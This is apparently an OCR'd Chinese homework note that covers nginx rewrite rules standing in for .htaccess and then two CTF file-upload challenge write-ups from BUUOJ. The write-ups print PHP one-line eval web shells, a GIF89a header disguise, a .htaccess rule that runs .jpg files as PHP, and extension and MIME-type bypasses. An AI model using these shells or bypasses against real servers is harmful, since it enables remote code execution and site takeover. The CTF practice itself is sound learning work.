 3.6作业



## 查找nginx能够实现.htaccess功能的文件及文件写法

1.在.htaccess里面写入

\# nginx rewrite rule

rewrite ^(.*?)/article/.*?-(d+)-(d+).html$ $1/show.html?id=$2&page=$3  break;

rewrite ^(.*?)/category/.*?-(d+)-(d+).html$ $1/list.html?id=$2&page=$3  break;

rewrite ^(.*?)/tag/([^/]+)/?$ $1/tag.html?w=$2  break;

rewrite ^(.*?)/tag/([^/]+)/(d+)$  $1/tag.html?w=$2&page=$3  break;

\# end nginx rewrite rule

保存在网站根目录下

2. 在nginx的配置文件的server块中引入.htaccess文件：include /usr/www/.htaccess
3. 重启nginx



# 经典题

共两道，复制到浏览器粘贴。

**第一道：**

https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Upload

题目提示上传图片，上传一张图片试试，发现可以，尝试上传.htaccess，发现不行，把一句话木马改成.phtml后缀，发现上传成功！使用蚁剑连接获取flag（后来又试了一下，发现应该过滤了php标签）

一句话木马内容：

GIF89a

<script language='php'>eval($_POST['cmd']);</script>

**第二道：**

https://buuoj.cn/challenges#[MRCTF2020]%E4%BD%A0%E4%BC%A0%E4%BD%A0%F0%9F%90%8E%E5%91%A2

上传普通的一句话木马，发现通不过，改后缀成jpg通不过，类型改成image/jpeg，通过了，再尝试上传.htaccess通过了，通过蚁剑连接，在根目录下找到flag

一句话木马：

<?php @eval($_POST['a']); ?>

.htaccess内容：

AddType application/x-httpd-php .jpg
